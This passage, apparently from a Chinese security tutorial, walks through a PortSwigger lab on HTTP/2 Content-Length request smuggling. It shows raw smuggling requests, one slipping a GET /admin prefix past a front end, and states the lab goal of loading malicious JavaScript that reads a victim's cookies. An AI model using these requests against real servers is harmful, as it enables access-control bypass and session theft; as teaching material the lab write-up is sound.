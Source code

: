 那么此时后端请求数据报文将如下：

```bash
POST /example HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

GET /admin HTTP/1.1
Host: vulnerable-website.com
Content-Length: 10

x=1GET / H
```

下面我们通过一个靶场进行演示介绍：  
靶场地址：[https://portswigger.net/web-security/request-smuggling/advanced/lab-request-smuggling-h2-cl-request-smuggling](https://portswigger.net/web-security/request-smuggling/advanced/lab-request-smuggling-h2-cl-request-smuggling)  
靶场介绍：此靶场容易受到请求走私的攻击，因为前端服务器会降低 HTTP/2 请求的级别，即使它们的长度不明确，要解决实验室问题，你需要执行请求走私攻击使受害者的浏览器从漏洞利用服务器加载并执行恶意 JavaScript 文件，调用 alert(document.cookie)，受害者用户每 10 秒访问主页一次  
解题过程：  
Step 1：访问上面的靶场链接地址，让后点击"ACCESS THELAB"进入靶场  
[![](assets/1705287960-44abe556a376d42ee84beea8ff409fb7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240111103309-c216b318-b029-1.png)  
Step 2：使用 Burp suite 抓包并尝试在 HTTP/2 请求的正文中添加 Content-Length:0 头的方式尝试走私前缀信息，需要注意的是在发送请求之前要将协议设置为 HTTP/2

```bash
POST / HTTP/2
Host: 0aed00cf039321e185db1c3f00a80002.web-security-academy.net
Content-Length: 0

SMUGGLED
```

[![](assets/1705287960-513913a57745d2d81084d9812ac37ad9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240111103338-d3567208-b029-1.png)  
此时第二个请求都会收到一个 404 响应，由此可以确定我们已经让后端将走私的前缀附加到后续的请求  